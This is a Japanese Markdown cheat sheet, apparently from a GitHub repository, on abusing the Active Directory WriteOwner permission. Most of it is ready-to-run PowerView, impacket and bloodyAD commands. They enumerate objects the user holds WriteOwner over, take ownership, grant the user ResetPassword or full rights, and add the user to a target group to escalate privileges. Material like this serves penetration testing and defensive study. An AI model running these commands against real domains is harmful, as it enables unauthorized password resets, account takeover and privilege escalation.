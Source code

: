 # WriteOwnerの悪用

この権限はオブジェクトの所有権を変更できる権限。ユーザーオブジェクトに `WriteOwner` がある場合は、そのユーザーの所有者になることができる。グループオブジェクトに対して `WriteOwner` を持っている場合、自分自身または、侵害した他のユーザーをそのグループに追加できる。ユーザー オブジェクトの所有権がある場合は、ユーザーのパスワードをリセットする`Resetpassword`権限を自分に付与して、権限を昇格することができる。

## WriteOwner on User

### Write Ownerを持つオブジェクトのリストを取得

`whoami /user` を実行して現在のユーザーの SID を取得し、`PowerView` をインポートしてから、以下のコマンドを実行して `WriteOwner` 権限を持つオブジェクトのリストを取得

```
Get-Objectacl -resolveguids | ? {($_.securityidentifier -eq "<SID>") -and ($_.activedirectoryrights -like "*WriteOwner*")}
```

### ForceChangePassword 権限を自分に付与

```
Add-DomainObjectacl -TargetIdentity <Target_User> -PrincipalIdentity <USERNAME> -Rights Resetpassword
```

### 権限が付与されているか確認

```
Get-Objectacl -resolveguids | ? {$_.securityidentifier -eq "<Target_USER_SID>"}
```

権限が付与されているとパスワードの変更ができるようになる

[ForceChangePassword](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/DACL/ForceChangePassword.md)

## WriteOwner on Group

### 権限の付与

### Linux

#### impacket

```
impacket-owneredit -action write -owner <USERNAME> -target <TargetObject> <DOMAIN>/<USERNAME>:<PASSWORD>
```

#### bloodyAD

```
bloodyAD --host <DC_IP> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> set owner <TargetObject> <ControlledPrincipal>
```

### Windows

そのユーザーとしてプロセスを実行していない場合は、ターゲットユーザーを完全に制御するユーザーとしてドメインコントローラーを認証する必要があるかもしれない。`Get-DomainObject` と組み合わせてこれを行うには、まず `PSCredential` オブジェクトを作成する。

```
$SecPassword = ConvertTo-SecureString '<Password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<USERNAME>', $SecPassword)
```

グループの `OwnerIdentity`(オブジェクトの所有者) と `PrincipalIdentity` (オブジェクトのアクセス権)を変更

```
Set-DomainObjectOwner -Identity '<Target Group>' -OwnerIdentity <USERNAME> -Cred $cred
```

オブジェクトに対してアクセス権を与える

```
Add-DomainObjectAcl -TargetIdentity "<Target Group>" -PrincipalIdentity <USERNAME> -Cred $cred -Rights All
```

ユーザーをグループに追加

```
Add-DomainGroupMember -Identity '<Target Group>' -Members '<USERNAME>' -Cred $cred
```

グループに追加されているか確認

```
net group "<Target Group>"
```





